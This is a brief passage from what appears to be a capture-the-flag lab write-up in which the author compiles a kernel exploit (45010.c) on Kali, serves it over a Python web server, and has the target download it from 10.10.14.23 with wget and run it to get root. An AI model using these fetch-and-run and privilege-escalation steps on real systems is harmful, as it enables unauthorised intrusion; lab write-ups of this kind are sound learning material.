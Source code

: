 However, just for fun, try the kernel exploit previously found:

```bash
# on kali, compile
gcc 45010.c -o 45010
# on kali, host
python3 -m http.server 7777
# on target, download & execute
wget http://10.10.14.23:7777/45010 -P /tmp/
chmod +x /tmp/45010
/tmp/45010
```

![root2](./haircut/root2.png)

And that is also root!